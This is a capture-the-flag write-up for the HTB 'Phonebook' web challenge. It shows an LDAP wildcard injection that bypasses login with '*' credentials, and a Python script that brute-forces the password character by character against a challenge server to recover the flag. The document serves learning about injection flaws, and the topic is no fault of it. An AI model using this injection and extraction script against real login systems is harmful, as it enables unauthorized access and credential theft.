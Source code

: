# Phonebook
Phonebook is a HTB web challenge that leverages on bruteforce attacks to find the correct username and password.

# Exploit
Using ```*:*``` as the credentials, we realize that we are able to login to the webpage. However, an invalid ```a:a``` will not allow us to login to the site.

From the webpage, we can also see that a user Reese is telling us that we can login using the workstation username and password/
![user Reese](https://github.com/joelczk/writeups/blob/main/HTB%20Challenges/Images/Phonebook/login.png)

Afterwards, we will try using ```Reese:*``` to login and we realize that we are also able to do so. Apart from that we also realize that ```Ree*:*``` also allows us to login to the site as well. This is likely some form of pattern matching which can be exploited to allow us to find the password.

We can get the flag by writing a script to automate the bruteforce of the password to get the flag

```
import requests

wordlist = ["a","b","c","d","e","f","g","h","i","j","k","l","m","n","o","p","q","r","s","t","u","v","w","x","y","z","A","B","C","D","E","F","G","H","I","J","K","L","M","N","O","P","Q","R","S","T","U","V","W","X","Y","Z","#","$","%","@","!","0","1","2","3","4","5","6","7","8","9","{","}","[","]","_","&","^"," "]

username = "reese"

def checkLogin(username, password):
    data = {'username':username, 'password': password}
    resp = requests.post("http://157.245.44.97:31657/login", data=data, allow_redirects=True)
    if "<title>Phonebook - Login</title>" in resp.text:
        return False
    else:
        return True

def checkWord():
    finalPassword = ""
    while True:
        for x in wordlist:
            testPassword = finalPassword + x + "*"
            print("Testing : {}".format(testPassword))
            if checkLogin(username, testPassword) == True:
                #print(testPassword)
                finalPassword = testPassword.replace("*","")
                print("Found:{}".format(finalPassword))
                break
            else:
                continue
        if "}" in finalPassword:
            print("Final flag: {}".format(finalPassword))
            break 
checkWord()
```

# Explanation
Upon some googling, it is discovered that the site is likely to be using LDAP Auth where a search query similiar to the one below is being used to authenticate a user. As such, ```*:*``` would allow anyone to be authenticated onto the web interface.
```
ldapAuth.dnResolution.searchFilter = (uid=%u)
```
